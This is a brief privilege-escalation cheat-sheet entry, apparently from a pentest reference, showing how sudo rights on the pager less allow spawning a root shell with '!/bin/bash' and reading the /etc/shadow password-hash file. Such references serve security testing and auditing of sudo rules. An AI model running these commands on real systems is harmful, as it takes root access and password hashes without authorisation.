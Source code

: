 # Less

## Spawn Shell

```
user@debian:~$ sudo less /etc/profile
!/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

## Harvest Credentials

```
user@debian:~$ sudo less /etc/shadow
```